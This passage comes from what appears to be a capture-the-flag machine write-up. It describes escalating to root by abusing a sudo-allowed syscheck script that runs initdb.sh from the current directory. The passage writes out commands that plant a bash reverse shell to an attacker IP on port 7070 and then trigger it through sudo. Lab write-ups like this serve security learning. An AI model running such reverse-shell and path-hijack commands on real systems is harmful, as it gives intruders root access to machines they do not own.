 ```bash

exit 0

```
{% endcode %}

The vulnerability of this script lies in the execution of an initdb.sh script present in the same directory from which syscheck is invoked. Therefore, we simply place ourselves in a directory in which we have write permissions (/tmp will do just fine) and create a script with the same name but with a reverse shell to our attacking machine:

```bash
echo '#!/bin/bash' > initdb.sh
echo "/bin/bash -i >& /dev/tcp/10.10.15.101/7070 0>&1" >> initdb.sh
```

<figure><img src="../../.gitbook/assets/image (574).png" alt=""><figcaption></figcaption></figure>

Add the permission of execution to the script (too much permissions in this case is not bad :joy: ):

```bash
chmod 777 initdb.sh
```

Now start a listener on our attacking machine and run with SUDO the `/usr/bin/syscheck` script:

<figure><img src="../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

On our machine we obtain the reverse shell as root:

<figure><img src="../../.gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>
